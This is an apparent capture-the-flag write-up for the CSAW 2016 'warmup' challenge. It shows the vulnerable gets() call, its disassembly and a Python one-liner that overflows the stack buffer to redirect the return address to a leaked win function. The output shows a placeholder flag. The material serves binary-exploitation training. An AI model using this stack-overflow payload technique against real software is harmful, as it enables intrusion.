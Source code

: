 # CSAW 2016 warmup

```PIE``` is disabled and the binary leaks the address of the win function.

```c
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(local_48);
```
We simply have to overflow the stack, base pointer and change the ```ret``` address.

```asm
        00400692 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
        00400696 48 89 c7        MOV        RDI,RAX
        00400699 b8 00 00        MOV        EAX,0x0
                 00 00
        0040069e e8 5d fe        CALL       gets                                             char * gets(char * __s)
                 ff ff

```

```bash
[root@pwn:~/csaw16_warmup]$ python -c 'print "A" * 64 + "BBBBBBBB"  + "\x0d\x06\x40\
x00\x00\x00\x00"' | ./warmup 
-Warm Up-
WOW:0x40060d
>flag{Generic Flag}
```